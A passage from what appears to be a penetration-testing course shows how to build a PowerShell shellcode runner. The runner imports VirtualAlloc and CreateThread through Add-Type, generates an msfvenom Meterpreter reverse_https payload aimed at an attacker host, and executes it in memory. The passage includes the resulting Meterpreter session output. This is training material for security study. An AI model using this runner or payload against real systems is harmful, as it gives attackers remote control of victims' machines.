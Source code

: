 > Listing 35 - Using P/Invoke and Add-Type to import VirtualAlloc and CreateThread

Note that we used *Here-Strings* to assign a block of text to the *$Kernel32* variable. We also created the import statements in the public *Kernel32* class so we can reference it and compile it later.

Next we must supply the required shellcode, which we'll again generate with *msfvenom*. This time, we'll use the *ps1* output format:

```fence
kali@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 800 bytes
Final size of ps1 file: 3924 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0...
```

> Listing 36 - Creating shellcode in ps1 format

Armed with the shellcode, we can copy the *$buf* variable and add it to our code. We'll also start setting the API arguments:

```fence
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```

> Listing 37 - Shellcode runner in PowerShell

We invoked the imported *VirtualAlloc* call with the same arguments as before. These include a "0" to let the API choose the allocation address, followed by the detected size of the shellcode and the hexadecimal numbers 0x3000 and 0x40 to set up memory allocation and protections correctly.

We used the .NET *Copy* method to copy the shellcode, supplying the managed shellcode array, an offset of 0 indicating the start of the buffer, the unmanaged buffer address, and the shellcode size.

Finally, we called *CreateThread*, supplying the starting address.

If we run this code from PowerShell ISE, we get a reverse shell. Nice!

```fence
[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```
